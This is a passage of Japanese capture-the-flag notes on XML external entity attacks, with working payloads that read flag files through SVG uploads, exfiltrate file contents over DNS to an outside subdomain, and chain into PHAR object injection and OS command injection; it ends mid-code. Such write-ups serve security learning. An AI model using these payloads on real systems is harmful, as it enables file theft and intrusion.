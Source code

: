 - **概要**   
普通のSVGのXXE。応答が返ってくる。`file://flag.txt`だと500エラーとなってしまうため`proc/self/cwd`を使うらしい。      
- **Payload**   
```txt
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:///proc/self/cwd/flag.txt" >
]>
<svg height="100" width="1000">
  <text x="10" y="20">&file;</text>
</svg>
```
## OOB XXE (create DTDfile into server / DNS SubDomain)
https://graneed.hatenablog.com/entry/2019/11/11/081011   

- **entrypoint**   
`index.php`のソースコードが与えられてその中で`loadXML`の中に`$_POST['content']`が入っているのでXXEと疑う。結果が返ってこないのでOOB XMLとわかる。   
- **概要**   
OOB XXEにはDTDファイルが必要だが今回はIptablesによって外部への通信がDNS以外ブロックされるため、入力データを`/tmp`に保存していることを利用してサーバー内にDTDファイルを作成する。DTDファイルは拡張子は何でも良さそう(.htmlでも)。   
   
リークさせる通信も53ポート以外は使えないので、DNSのサブドメインへのクエリを確認できるドメインを払い出す`DNSBin`というツールを使って`51a19e650babb6f295ed.d.zhack.ca`みたいなサブドメインを求めて、攻撃者サーバー53ポートでリッスンする。   
そして、DTDファイルを作成した後に、それを参照するようなXXE Payloadを送信する。   

- **Payload**   
```txt
// <!ENTITY % all "<!ENTITY send SYSTEM 'http://%file;.51a19e650babb6f295ed.d.zhack.ca/'>">
%all;
// このDTDファイルを作成するためのリクエスト
$ curl http://167.71.102.84/index.php -d "content=%3C%21ENTITY+%25+all+%22%3C%21ENTITY+send+SYSTEM+%27http%3A%2F%2F%25file%3B.51a19e650babb6f295ed.d.zhack.ca%2F%27%3E%22%3E%0D%0A%25all%3B" -v


// 二回目のこのリクエストで攻撃者の53ポートにフラグ付きのリクエストが送信されてくる(SSRF)
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/flag">
  <!ENTITY % dtd SYSTEM "/tmp/5e870399feeb3947c7f6c27b3ee0d71e.html">
  %dtd;
]>
<data>&send;</data>
```
## OOB XXE (SVG XXE / upload PHARfile / PHP Object Injection to OS Command Injection)
https://jbz.team/midnightsunctfquals2019/Rubenscube   
- **entrypoint**   
得られたソースコード内に`loadXML`,`svg`というキーワードがあり、送信を許可されているMIMEタイプが`image/png image/jpeg image/svg+xml`の３つしかない(xml形式で送信できない！)のでSVG XXEとわかる。応答は返されないのでOOB XXEとわかる。   
- **概要**   
ソースコードを見るとOOB SVG XXEとわかり、SVGファイルをアップロードすればよいが、flagファイルのフルパスがどこかわからない。ここで、`jpeg`とかも許可されており、`Image`クラスで`__destruct()`で以下を呼び出すのでpharでのPHP Object Injectionが可能！(アップされたpharを保存するフルパスはソースからわかる！)   
`system()`のなかで`$this->folder`とかを任意の値に変えられるのでOS Command Injectionが可能！   
```php
    function create_thumb() {
        $file_path = $this->folder . $this->file_name . $this->extension;
        $thumb_path = $this->folder . $this->file_name . "_thumb.jpg";
        system('convert ' . $file_path . " -resize 200x200! " . $thumb_path);
    }

    function __destruct()
    {
        if (!file_exists($this->folder)){
            mkdir($this->folder);
```